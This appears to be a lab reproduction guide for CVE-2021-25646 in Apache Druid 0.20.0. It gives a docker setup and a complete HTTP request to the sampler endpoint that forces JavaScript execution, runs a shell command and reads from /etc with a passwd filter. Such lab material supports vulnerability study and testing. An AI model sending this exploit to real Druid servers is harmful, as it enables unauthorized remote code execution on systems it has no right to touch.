

Apache Druid Embedded Javascript Remote Code Execution (CVE-2021-25646)¶
Apache Druid is an open source, distributed data store that is designed for ingesting high volumes of data to provide instant data visibility, ad-hoc analytics and queries with low latency and high concurrency.
Apache Druid includes the ability to execute user-provided JavaScript code embedded in various types of requests. This functionality is intended for use in high-trust environments, and is disabled by default. However, in Druid 0.20.0 and earlier, it is possible for an authenticated user to send a specially-crafted request that forces Druid to run user-provided JavaScript code for that request, regardless of server configuration. This can be leveraged to execute code on the target machine with the privileges of the Druid server process.
References:
- https://blogs.juniper.net/en-us/threat-research/cve-2021-25646-apache-druid-embedded-javascript-remote-code-execution
- https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw
Vulnerable Environment¶
Execute following command to start an Apache Druid server 0.20.0:
docker compose up -d
After server is started, you can see the home page of Apache Druid on http://your-ip:8888.
Exploit¶
Send this request to the server:
POST /druid/indexer/v1/sampler HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
{
"type":"index",
"spec":{
"ioConfig":{
"type":"index",
"firehose":{
"type":"local",
"baseDir":"/etc",
"filter":"passwd"
}
},
"dataSchema":{
"dataSource":"test",
"parser":{
"parseSpec":{
"format":"javascript",
"timestampSpec":{
},
"dimensionsSpec":{
},
"function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"sh\",\"-c\",\"id\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
"":{
"enabled":"true"
}
}
}
}
},
"samplerConfig":{
"numRows":10
}
}
You will see the output of the id command:
